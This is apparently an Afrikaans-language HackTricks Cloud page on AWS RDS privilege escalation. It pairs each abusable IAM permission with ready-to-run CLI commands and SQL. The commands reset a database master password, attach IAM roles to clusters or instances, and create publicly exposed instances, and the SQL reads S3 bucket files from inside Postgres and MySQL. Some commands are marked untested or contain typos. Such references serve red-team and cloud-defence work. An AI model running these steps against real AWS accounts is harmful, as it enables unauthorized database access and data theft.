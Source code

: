 # AWS - RDS Privesc

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## RDS - Relational Database Service

Vir meer inligting oor RDS, kyk:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

Met daardie toestemming kan 'n aanvaller die **wagwoord van die hoofgebruiker wysig**, en die aanmelding binne die databasis:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
Jy sal in staat moet wees om **kontak te maak met die databasis** (hulle is gewoonlik slegs toeganklik van binne netwerke).
{% endhint %}

**Potensiële Impak:** Vind sensitiewe inligting binne die databasisse.

### rds-db:connect

Volgens die [**dokumentasie**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) kan 'n gebruiker met hierdie toestemming aan die DB-instantie koppel.

### Misbruik RDS Rol IAM-toestemmings

#### Postgresql (Aurora)

{% hint style="success" %}
As jy **`SELECT datname FROM pg_database;`** hardloop en 'n databasis genaamd **`rdsadmin`** vind, weet jy dat jy binne 'n **AWS postgresql databasis** is.
{% endhint %}

Eerstens kan jy nagaan of hierdie databasis gebruik is om toegang tot enige ander AWS-diens te verkry. Jy kan dit nagaan deur na die geïnstalleerde uitbreidings te kyk:
```sql
SELECT * FROM pg_extension;
```
Indien jy iets soos **`aws_s3`** vind, kan jy aanneem dat hierdie databasis **'n soort toegang oor S3 het** (daar is ander uitbreidings soos **`aws_ml`** en **`aws_lambda`**).

Verder, as jy toestemmings het om **`aws rds describe-db-clusters`** uit te voer, kan jy sien of die **klaster enige IAM Rol aangeheg het** in die veld **`AssociatedRoles`**. Indien wel, kan jy aanneem dat die databasis **voorberei is om ander AWS-diens te benader**. Gebaseer op die **naam van die rol** (of as jy die **toestemmings** van die rol kan kry) kan jy **raai** watter ekstra toegang die databasis het.

Nou, om **'n lêer binne 'n emmer te lees** moet jy die volledige pad weet. Jy kan dit lees met:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Indien jy **rou AWS-legitimasie** gehad het, kon jy dit ook gebruik om toegang tot S3-data te verkry met:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **hoef nie enige parametergroepveranderlike te verander** om toegang tot S3 te verkry nie.
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
Binne 'n mysql, as jy die navraag **`SELECT User, Host FROM mysql.user;`** hardloop en daar is 'n gebruiker genaamd **`rdsadmin`**, kan jy aanneem dat jy binne 'n **AWS RDS mysql db** is.
{% endhint %}

Voer **`show variables;`** binne die mysql uit en as die veranderlikes soos **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** waardes het, kan jy aanvaar dat die databasis gereed is om S3-data te benader.

Ook, as jy toestemming het om **`aws rds describe-db-clusters`** uit te voer, kan jy nagaan of die groep enige **geassosieerde rol** het, wat gewoonlik toegang tot AWS-diens beteken.

Nou, om **'n lêer binne 'n emmer te lees** moet jy die volledige pad weet. Jy kan dit lees met:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

'n Aanvaller met die regte `rds:AddRoleToDBCluster` en `iam:PassRole` kan **'n spesifieke rol by 'n bestaande RDS-instantie voeg**. Dit kan die aanvaller in staat stel om **toegang tot sensitiewe data** te verkry of die data binne die instantie te wysig.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Potensiële Impak**: Toegang tot sensitiewe data of ongemagtigde wysigings aan die data in die RDS-instantie.\
Merk op dat sommige DB's addisionele konfigurasies vereis soos Mysql, wat die rol ARN moet spesifiseer in die parametergroepe ook.

### `rds:CreateDBInstance`

Net met hierdie toestemming kan 'n aanvaller 'n **nuwe instansie binne 'n bestaande groep** skep wat reeds 'n **IAM-rol** aangeheg het. Hy sal nie die hoofgebruiker se wagwoord kan verander nie, maar hy mag die nuwe databasisinstansie moontlik aan die internet blootstel:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Toets
{% endhint %}

'n Aanvaller met die regte `rds:CreateDBInstance` en `iam:PassRole` kan **'n nuwe RDS-instantie skep met 'n gespesifiseerde rol aangeheg**. Die aanvaller kan dan moontlik **toegang verkry tot sensitiewe data** of die data binne die instantie wysig.

{% hint style="warning" %}
Sommige vereistes van die rol/instantie-profiel om aan te heg (vanaf [**hier**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* Die profiel moet in jou rekening bestaan.
* Die profiel moet 'n IAM-rol hê wat Amazon EC2 toestemming het om aan te neem.
* Die instantie-profielnaam en die geassosieerde IAM-rolnaam moet begin met die voorvoegsel `AWSRDSCustom`.
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**Potensiële Impak**: Toegang tot sensitiewe data of ongemagtigde wysigings aan die data in die RDS-instantie.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

'n Aanvaller met die regte `rds:AddRoleToDBInstance` en `iam:PassRole` kan **'n spesifieke rol by 'n bestaande RDS-instantie voeg**. Dit kan die aanvaller toelaat om **toegang tot sensitiewe data** te verkry of die data binne die instantie te wysig.

{% hint style="warning" %}
Die DB-instantie moet buite 'n groep wees vir hierdie
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**Potensiële Impak**: Toegang tot sensitiewe data of ongemagtigde wysigings aan die data in die RDS-instansie.

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
